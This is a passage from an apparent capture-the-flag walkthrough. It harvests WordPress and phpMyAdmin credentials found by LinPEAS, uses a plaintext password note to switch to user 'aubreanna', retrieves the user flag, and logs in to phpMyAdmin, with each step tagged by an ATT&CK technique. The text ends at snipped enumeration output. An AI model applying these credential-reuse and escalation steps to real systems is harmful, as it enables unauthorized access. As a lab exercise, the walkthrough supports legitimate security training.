 define( 'DB\_NAME', 'wordpress' );

define( 'DB\_USER', 'wordpress' );

define( 'DB\_PASSWORD', 'wordpress123' )

* LinPEAS found interesting "wp-save.txt" file in "/opt" directory.

\-rw-r--r-- 1 root root 138 Aug 3 2020 wp-save.txt

* Content of "wp-save.txt".

Bill,

Aubreanna needed these credentials for something later. Let her know you have them and where they are.

aubreanna:bubb13guM!@#123

#### **Escalate privileges to aubreanna (Privilege Escalation: Valid Accounts: Local Accounts (T1078.003))** <a href="#w3hy9n2fw139" id="w3hy9n2fw139"></a>

su aubreanna

Password: bubb13guM!@#123

whoami

aubreanna

id

uid=1000(aubreanna) gid=1000(aubreanna) groups=1000(aubreanna),4(adm),24(cdrom),30(dip),46(plugdev)

**Recover user.txt flag**

find / -name user.txt 2>/dev/null

/home/aubreanna/user.txt

* LinPEAS found phpMyAdmin credentials in "config-db.php" file

/etc/phpmyadmin/config-db.php:$dbpass='B2Ud4fEOZmVq';

/etc/phpmyadmin/config-db.php:$dbuser='phpmyadmin';

#### **Attempt to login to "/phpmyadmin" using recovered credentials (Initial Access: Valid Accounts: Default Accounts (T1078.001))** <a href="#xmyl67xhqe2m" id="xmyl67xhqe2m"></a>

* Success!

#### **Enumerate target host using LinPEAS run as aubreanna (Discovery: System Information Discovery (T1082))** <a href="#c7uh25zeetlb" id="c7uh25zeetlb"></a>

\[...snip...]

AdminIdentities=unix-group:sudo;unix-group:admin
